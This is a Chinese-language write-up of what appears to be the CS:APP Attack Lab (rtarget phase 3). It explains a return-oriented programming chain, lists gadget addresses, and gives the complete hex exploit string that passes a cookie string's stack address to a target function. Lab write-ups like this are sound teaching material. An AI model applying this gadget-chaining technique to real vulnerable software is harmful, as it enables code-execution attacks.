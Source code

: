 于是大概的思路就是，我们先把 `%rsp` 移动到 `%rdi` 中，然后通过 `pop` 将一个地址偏移量的数据从栈中传到 `%rax`，然后到 `%esi`，然后使用 `lea` 计算出字符串的地址，再传到 `%rdi` 中。字符串数据应该放在所有跳转地址的最后面

一开始我是把 `%rsp` 放到 `%esi` 中的，后来在 gdb 中调试发现 rtarget 的栈位于整个虚拟内存空间比较高的一部分，这意味着栈地址的高 32 位是有数据的。而上面的指令中只有 `%eax` 到 `%edx`，不能传 64 位的栈地址

然后大概是

```
popq %rax				0x4019ca
movl %eax,%edx			0x4019dd
movl %edx,%ecx			0x401a34
movl %ecx,%esi			0x401a27
movq %rsp,%rax			0x401a06
movq %rax,%rdi			0x4019a2
lea (%rdi,%rsi,1),%rax	0x4019d6
movq %rax,%rdi			0x4019a2
```

然后注意一下地址偏移数据的构造。`%rsp` 被存到 `%rax` 的时候，`%rsp` 指向的位置后面需要继续放 4 个跳转地址，总共 32 字节，十六进制为 0x20

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
20 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
a0
```
